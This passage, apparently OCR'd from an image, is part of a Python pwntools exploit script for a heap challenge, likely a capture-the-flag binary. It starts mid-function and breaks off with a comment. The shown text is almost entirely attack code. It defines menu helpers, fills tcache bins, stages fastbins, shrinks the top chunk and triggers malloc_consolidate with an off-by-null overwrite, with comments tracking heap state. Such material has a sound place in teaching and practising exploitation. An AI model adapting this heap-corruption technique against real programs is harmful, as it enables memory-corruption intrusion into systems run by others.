 ```
    p.sendline(str(size))
    p.recvuntil('Content')
    p.sendline(content)

def delete(idx):
    p.recvuntil('Command')
    p.sendline('3')
    p.recvuntil('Index')
    p.sendline(str(idx))

def view(idx):
    p.recvuntil('Command')
    p.sendline('4')
    p.recvuntil('Index')
    p.sendline(str(idx))


#shrink the top chunk size and fill up the tcache.
for i in range(7):
    add(0x58)
    edit(i,0x58,'a'*0x58)
for i in range(7):
    delete(i)

for i in range(7):
    add(0x48)
    edit(i,0x48,'a'*0x48)
for i in range(7):
    delete(i)

for i in range(7):
    add(0x38)
    edit(i,0x38,'a'*0x38)
for i in range(7):
    delete(i)
#now the top_chunk size is 0x900

#because  the 0x60 size tcache is full , I can prepare some 0x60 fastbins.
for i in range(8):
    add(0x58)
for i in range(1,7):
    delete(i)  # remain chunk_0 chunk_7
#use chunk_0 to make fastbin attack.
#use chunk_7 to forward merge. 
#now the top_chunk size is  0x601

#shrink the top_chunk size
for i in range(5):
    add(0x28)
    edit(i+1,0x28,'a'*0x28)
for i in range(5):
    delete(i+1)
add(0x38) # idx 1
add(0x28) # idx 2
add(0x28) # idx 3
add(0x28) # idx 4
# now the top_chunk size = 0x31

#trigger malloc_consolidate() and off_by_null.
add(0x28) # idx 5
edit(5,0X28,'A'*0X28) # off_by_null

#reduce the idx number.
```